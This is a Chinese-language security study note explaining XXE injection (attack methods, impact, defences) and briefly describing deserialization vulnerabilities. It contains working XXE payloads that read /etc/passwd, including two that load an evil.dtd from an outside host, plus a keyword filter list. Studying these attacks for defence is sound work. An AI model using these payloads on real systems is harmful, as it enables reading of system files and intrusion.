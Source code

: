 ### XXE是什么？攻击方法？危害？防御方法？
	1) XXE是什么？
		先了解，外部实体声明:<!ENTITY 实体名称 SYSTEM "URI">，示例如下：
```
		<?xml version="1.0"?>
		<!DOCTYPE test [
			<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
			<!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
		]>
		<author>&writer;&copyright;</author>
```
		xxe也就是xml外部实体注入。
	2) XXE攻击方法
		a. 直接通过DTD外部实体声明
```
			<?xml version="1.0"?>
			<!DOCTYPE a [
				<!ENTITY b SYSTEM "file:///etc/passwd">
			]>
			<c>&b;</c>
```
		b. 通过DTD文档引入外部DTD文档，再引入外部实体声明
			XML内容：
```
			<?xml version="1.0"?>
			<!DOCTYPE a SYSTEM "http://mark4z5.com/evil.dtd">
			<c>&b;</c>
```
			DTD文件内容：
```
			<!ENTITY b SYSTEM "file:///etc/passwd">
```
		c. 通过DTD外部实体声明引入外部实体声明
			XML内容：
```
			<?xml version="1.0"?>
			<!DOCTYPE a [
				<!ENTITY % d SYSTEM "http://mark4z5.com/evil.dtd">
				%d;
			]>
			<c>&b;</c>
```
			DTD文件内容：
```
			<!ENTITY b SYSTEM "file:///etc/passwd">
```
	3) XXE危害
		a. 任意文件读取
		b. 执行系统命令
		c. 探测内网端口
		d. 攻击内网
	4) XXE防御方法
		a. 禁用外部实体声明
		b. 过滤关键词（<!DOCTYPE，<!ENTITY，SYSTEM等）
### 反序列化漏洞
##### 序列化和反序列化
1) 序列化：    	把Object转化成字节流，便于保存( eg. Java writeObject() )

2) 反序列化：	把字节流还原成Object ( eg. Java readObject() )
##### 反序列化漏洞
程序对于用户输入的进行反序列化处理，可能导致恶意payload导致的任意代码执行。
##### 影响
Java, PHP, Python等主流计算机语言都存在这种代码隐患。

